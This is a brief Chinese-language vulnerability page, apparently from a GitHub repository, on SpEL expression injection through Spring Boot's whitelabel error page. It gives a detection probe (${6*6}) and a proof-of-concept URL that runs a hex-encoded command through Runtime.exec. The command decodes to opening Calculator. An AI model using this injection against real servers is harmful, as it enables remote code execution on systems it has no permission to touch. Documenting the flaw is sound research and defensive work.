


# whitelabel error page SpEL RCE
## 利用方法
#### 反问url存在500的报错页面，例如`/article`

#### 执行SpEL表达式,测试是否存在漏洞
输入`/article?id=${6*6}`，如果表达式可以执行并显示在报错页面，则存在表达式注入漏洞。  

#### POC
将命令转换成0x**格式化的16进制数组  
`http://127.0.0.1:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}`